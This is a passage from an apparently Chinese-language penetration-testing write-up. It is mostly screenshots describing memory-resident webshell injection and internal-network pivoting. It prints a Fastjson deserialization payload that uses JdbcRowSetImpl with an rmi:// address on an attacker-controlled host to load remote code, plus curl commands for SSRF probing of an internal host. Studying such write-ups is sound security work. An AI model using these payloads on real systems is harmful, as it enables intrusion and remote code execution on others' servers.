 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-f9574af6d8f5ce17943adf945e0debc1b8961f93.png)  
后面通过第二个打内存马

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-436380de8c17f76f5715e23c15a03b87addcd8b6.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-0eb83851daf9f82ae3831d9ed49f0a306aa57aa1.png)

参考：<https://forum.ezreal.cool/thread-117-1-1.html>

打内网
---

出⽹或者不出⽹都可以

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-ae3fd89175a803a971646dc975c1175b0d97a83a.png)

```js
{
 "a":{
 "@type":"java.lang.Class",
 "val":"com.sun.rowset.JdbcRowSetImpl"
 },
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://192.168.31.143:8085/jvnbiySo",
 "autoCommit":true
 }
}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-d5bfd7f0847fc1848a42741b06da53fef747a572.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-76570bea7a6901c1da8fe5099b5eabe3e7973868.png)

利用curl达到ssrf探测的效果

```php
curl -G -d 'user=marry' -d 'count=2' http://192.168.31.143:222

curl -b 'foo1=bar;foo2=bar2' http://192.168.31.143:222

curl -d 'login=admin＆password=pass' -X POST http://192.168.31.143:222
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-0fc81f1ab7e4b2e4eef0f4565ee0ed4eaa70284d.png)

分块传输插件

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-048945be5dfdbf9d0c5cee49530e5dfce42ff40c.png)
